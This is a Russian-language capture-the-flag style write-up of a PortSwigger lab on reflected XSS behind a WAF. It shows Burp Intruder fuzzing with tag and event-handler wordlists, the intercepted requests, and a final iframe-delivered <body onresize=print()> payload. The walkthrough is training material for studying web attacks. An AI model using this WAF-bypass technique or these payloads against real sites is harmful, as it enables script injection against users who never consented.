






# Reflected XSS into HTML context with most tags and attributes blocked

Level: `PRACTITIONER`

## Description

> This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

# Solution

## Well, its hard

Если мы по базе попробуем наш базовый пейлоад `<script>alert(1)</script>`,
то получим такую грусть-печаль:



Как мы можем заметить, здесь используется особая система защиты -- `WAF`

> `WAF` (Web Application Firewall) -- это межсетевой экран для веб-приложений, 
> используется для фильтрации `HTTP`-трафика, обработки запросов и тд
> Он помогает от:
> - `SQLi`
> - `XSS`
> - `CSRF`
> - `API-attacks`
> - `DDoS-attacks`

# Solution: Bypassing `WAF`

## Find not blocked tag

В данном случае мы видим, что теги блокируются, значит нужно придумать как обойти это.
Именно здесь в игру вступает `Burp Suite`

Включаем `Intercept is on` в `Proxy` и пытаемся отправить `<script>`.
В итоге перехватили запрос:

```http
GET /?search=%3Cscript%3E HTTP/2
Host: 0ae30068040cb89d80e594f0003000c9.web-security-academy.net
Cookie: session=ZfVv6Zoz03isCp9CBrQDlLCKVWTZAjbT
Sec-Ch-Ua: "Not A(Brand";v="99", "Chromium";v="154"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae30068040cb89d80e594f0003000c9.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Полученный запрос отправляем в `Intruder`.

А затем настраиваем `Payloads` и все необходимое для брутфорса тагов, чтобы получилось что-то типа:`search=<§scrtip§>`

В `Payloads` вставим такой набор:

```text
a
abbr
address
area
article
aside
audio
b
base
bdi
bdo
blockquote
body
br
button
canvas
caption
cite
code
col
colgroup
data
datalist
dd
del
details
dfn
dialog
div
dl
dt
em
embed
fieldset
figcaption
figure
footer
form
h1
h2
h3
h4
h5
h6
head
header
hgroup
hr
html
i
iframe
img
input
ins
kbd
label
legend
li
link
main
map
mark
menu
meta
meter
nav
noscript
object
ol
optgroup
option
output
p
param
picture
pre
progress
q
rp
rt
ruby
s
samp
script
section
select
slot
small
source
span
strong
style
sub
summary
sup
svg
table
tbody
td
template
textarea
tfoot
th
thead
time
title
tr
track
u
ul
var
video
wbr
```

И жмем `Start Attack`



В итоге мы увидим что тег `body` прошел:



## Find not blocked attribute

Но простого `body` нам недостаточно, нам нужен еще и обработчик, который выполнит наш XSS-код

Возвращаемся к запросу в `Intruder` и меняем его на `search=<body §onresize§=print()>`. 
Но я на верочку сделаю еще один запрос, чтобы применилось `URL`-кодирование:

```http
GET /?search=%3Cbody+onresize%3Dprint%28%29%3E HTTP/1.1
Host: 0ae30068040cb89d80e594f0003000c9.web-security-academy.net
Cookie: session=ZfVv6Zoz03isCp9CBrQDlLCKVWTZAjbT
Sec-Ch-Ua: "Not A(Brand";v="99", "Chromium";v="154"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae30068040cb89d80e594f0003000c9.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

> Обратите внимания, что мы снова обрамляем то, что будем перебирать(тогда тег, сейчас аттрибут)

Очищаем `Payloads` и грузим другой список:
```text
onload
onresize
onpageshow
onfocus
onhashchange
onscroll
onbeforeprint
onanimationstart
onbegin
ontoggle
onerror
onmouseover
onclick
```

В итоге получим информацию, что `onresize` прошел:



## Exploitation

Что мы имеем?
- Тег: `<body>`
- Аттрибут: `onresize`

Теперь нужно собрать финальный `payload`: `<body onresize=print()>`

После отправки payload и движения окна(вызов `onresize`) мы получим выполненный `XSS`:


Но наш пейлоад сработал у нас, а надо чтобы сработал у жертвы. Для этого используем трюк с `<iframe>`.
Загрузим пейлоад внуть этого тега и меняем размер страницы при помощи тега `onload`:

```html
<iframe src="https://0ae30068040cb89d80e594f0003000c9.web-security-academy.net/?search=<body onresize=print()>" onload="this.style.width='100px'">
```

1. Для финальной эксплуатации надо нажать на кнопку `Exploit Server`
2. Загрузить наш конечный `payload` в `Body:`
3. Нажать кнопку `Store`
4. Нажать кнопку `Deliver exploit to victim`



> Помимо прочего в настройках я указал следующее:
> в графе **Settings:Network** `Default to HTTP/2 if the server supports it` снял галку.
> ибо сначала у меня css стили не грузились, а потом и вовсе вылезло: `Stream failed to close correctly`

---

> [Подробнее о том, зачем нужен iframe](./explanation.md)
